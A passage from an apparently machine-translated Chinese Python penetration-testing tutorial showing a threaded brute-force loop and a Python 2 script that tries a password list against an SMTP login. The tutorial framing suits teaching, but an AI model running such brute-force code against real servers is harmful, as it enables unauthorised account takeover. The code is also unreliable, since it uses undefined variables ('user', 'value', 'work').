 在这里，我们使用线程使模糊并行运行，以提高速度：

```
for i in bruteforce_list(letters_list, PASS_SIZE): 
    t = threading.Thread(target=attempt, args=(i)) 
    t.start() 
    time.sleep(0.3) 

sys.exit(0) 

```

# 暴力强迫

**简单邮件传输协议**（**SMTP**）是跨网络传输电子邮件的标准。电子邮件服务器和其他邮件传输代理使用 SMTP 发送和接收电子邮件。电子邮件客户端应用程序通常只使用 SMTP 发送电子邮件。要对 SMTP 执行暴力密码审核，我们可以使用`smtplib`模块，它帮助我们连接到 SMTP。

像往常一样，导入所需的模块：

```
import sys, smtplib, socket 
from smtplib import SMTP 

```

设置`IP`和`USER`。您还可以将这些值作为输入参数：

```
IP = "127.0.0.1" 
USER = "admin"  

```

使用密码列表中的每个密码检查 SMTP：

```
attackNumber = 1 
with open('passwordlist.txt') as f: 
    for PASSWORD in f: 
         try: 
               print "-"*12 
               print "User:",USER,"Password:",PASSWORD 
               smtp = smtplib.SMTP(IP) 
               smtp.login(user, value) 
               print "\t\nLogin successful:",user, value 
               smtp.quit() 
               work.join() 
               sys.exit(2) 
         except(socket.gaierror, socket.error, socket.herror,
         smtplib.SMTPException), msg:  
               print "An error occurred:", msg 

```

# 强制目录和文件位置
